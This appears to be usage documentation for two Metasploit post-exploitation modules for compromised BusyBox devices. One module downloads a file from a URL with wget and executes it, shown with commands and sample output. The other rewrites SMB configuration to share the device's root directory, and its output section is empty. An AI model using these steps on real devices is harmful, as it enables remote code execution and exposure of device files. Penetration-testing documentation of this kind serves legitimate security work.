 <h2>busybox_wgetandexec.rb</h2>

This module is intended to be applied against a session connected to a ash busybox shell. It uses the wget command to download a file from a given url. It will try to find a writable directory and it will download the file there. If successful, it executes the file.

<h3>Usage</h3>

```
use post/linux/manage/busybox_wgetandexec
set URL http://192.168.1.128/test.sh
set SESSION 1
set VERBOSE yes
run
```

Note: test.sh is a simple script with ls command.

<h3>Verbose output</h3>

```
[*] Trying to find writable directory.
[*] is_writable_directory:
cat: /etc/SATWTJKPMHQFVTVV: No such file or directory

[*] is_writable_directory:
RUIQVGSIRGOWTSDPXXXRUIQVGSIRGOWTSDP

[*] writable directory found, downloading file.
[+] File downloaded using wget. Executing it.
[*]
: not found
bin      dev      lib      mnt      proc     sys      usr      webs
data     etc      linuxrc  opt      sbin     tmp      var
[*] Post module execution completed
```

<h2>busybox_smb_share_root.rb</h2>

This module is intended to be applied against a session connected to a ash busybox shell. It tries to modify some SMB configuration files and relaunch SMB service to share the device's root directory. 

After this it could be possible to use SMB modules (i.e. auxiliary/admin/smb/list_directory to enumerate device's directories). Some device's directories are writable (/mnt, /var,...) and you could upload files there.

<h3>Usage</h3>

```
use post/linux/manage/busybox_smb_share_root
set SESSION 1
set VERBOSE yes
run
```

<h3>Verbose output</h3>
